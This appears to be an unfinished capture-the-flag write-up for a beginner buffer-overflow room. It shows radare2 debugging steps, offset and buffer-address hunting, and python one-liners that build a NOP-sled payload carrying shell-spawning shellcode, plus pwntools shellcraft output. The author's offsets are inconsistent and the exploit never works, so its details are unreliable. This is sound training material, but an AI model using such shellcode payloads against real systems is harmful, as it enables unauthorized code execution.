


Buffer Overflow (bof1)

# Buffer overflow 3
**Find offset**
Doing it manually:

- Keep throwing 'A's as input until we overwrite the return address
```
$ r2 -d overflow-3
> aa
> doo `python -c "print('A'*140)"`
> pdf @sym.copy_arg
> db 0x00400563   // <--- Set a breakpoint just before accessing return address
> dc
> ds
> dr  // <--- Here we eventually see that the address is being overwritten
```


With an offset of 154, we have two As in the return address (RIP value), that means that the return address starts at **offset 153**      



With the RIP/return address being 6 bytes, the following input will completely overwrite the RIP:
`python -c "print('A'*152 + 'B' * 6)"`




**Find address of buffer**
To find the address of the buffer, we have a look at the memory around the stack after reading the input

```
> db 0x00400552 // <--- Breakpoint directly after the call to strcpy
> px @rsp
```
We see that our input is stored starting from address **0x7fffffffe0e0**


**Preparing the payload**

Knowing the required length of the payload and the address of the input, we need some working shellcode to insert and execute.

Let's try the shellcode given by the room.
`\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05`  


This code is 30 bytes long. We provide 122 NOPs (google NOP-sled for reference) to fill up the space to 153. Thus our input is:

`python -c "print('\x90' * 122 + '\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05' + '\xe0\xe0\xff\xff\xff\x7f')"`

Instead of spawning a shell, the program simply crashes. A look into the memory shows us, that it stops copying our shell code into memory starting from the `\x3b` character. So purposefully or not, this room provided us with shellcode containing bad chars and we need to find a proper one.


Let's try it with pwntool's shellcraft
```
$ shellcraft -f d i386.linux.sh
\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80
```

Analyzing the execution with radare, we see that it goes over the instructions, however the programm still crashes. That is, because our payload lacks an exit function.


**Here I decided to stop working on this room for a while. In general, this room seems to be too hard for a beginner, the missing and sometimes faulty description not making it any easier. I plan on coming back when I am more experienced.**


